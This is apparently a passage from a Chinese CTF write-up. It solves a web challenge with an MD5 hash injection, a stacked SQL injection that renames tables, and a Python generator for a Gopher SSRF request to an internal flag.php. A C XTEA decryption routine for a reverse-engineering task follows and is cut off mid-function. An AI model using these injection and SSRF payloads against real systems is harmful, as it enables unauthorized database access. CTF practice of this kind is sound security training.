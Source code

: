 第一步MD5哈希注入，密码`kydba`

第二步Gopher打admin.php，存在堆叠注入，用强网杯随便注的rename改表名能得到admin_inner的账户密码

但是登陆名需要猜解，是`admin`

```python
# python3
# wh1sper
from urllib.parse import quote

#username = "1';rename table real_admin_here_do_you_find to thetmp;rename table fake_admin to real_admin_here_do_you_find;rename table thetmp to fake_admin;"
#username = "1"
username = "admin"#admin_inner/5fb4e07de914cfc82afb44vbaf402203d
#我草泥马的脑瘫题
password = "5fb4e07de914cfc82afb44vbaf402203"#fake_admin/fake_passwor
post_data = "username={}&password={}".format(quote(username), quote(password))
cl = len(post_data)

stream = """POST /flag.php HTTP/1.1
Host: 127.0.0.1
Content-Type: application/x-www-form-urlencoded
Content-Length: {}
Cookie: PHPSESSID=fuj95a6eo7sa84923b6eg5bie2; path=/

{}
""".format(cl, post_data).replace("\n", "\r\n") # POST参数先编码一次

host = "gopher://127.0.0.1:80/"
print(host+'_'+quote(stream)) # Gopher数据流再编码一次
#print(stream)
```

构造Gopher数据，先打admin.php，得到Cookie之后带着Cookie打flag.php就能拿到flag。



## Reverse

### GoEncrypt

输入符合正则格式的flag:flag{11111111-1111-1111-1111-111111111111}, 除了”-“的其他hex编码 ，之后分成2组 xtea,脚本

抄百度就行

```c
#include<stdio.h>
#include<stdlib.h>
#define uint32_t unsigned int
void encipher(unsigned int num_rounds, uint32_t v[2], uint32_t const key[4]) {
    unsigned int i;
    uint32_t v0 = v[0], v1 = v[1], sum = 0, delta = 0x12345678;
    for (i = 0; i < num_rounds; i++) {
        v0 += (((v1 << 4) ^ (v1 >> 5)) + v1) ^ (sum + key[sum & 3]);
        sum += delta;
        v1 += (((v0 << 4) ^ (v0 >> 5)) + v0) ^ (sum + key[(sum >> 11) & 3]);
    }
    v[0] = v0; v[1] = v1;
}

void decipher(unsigned int num_rounds, uint32_t v[2], uint32_t const key[4]) {
    unsigned int i;
    uint32_t v0 = v[0], v1 = v[1], delta = 0x12345678, sum = delta * num_rounds;
    for (i = 0; i < num_rounds; i++) {
        v1 -= (((v0 << 4) ^ (v0 >> 5)) + v0) ^ (sum + key[(sum >> 11) & 3]);
        sum -= delta;
```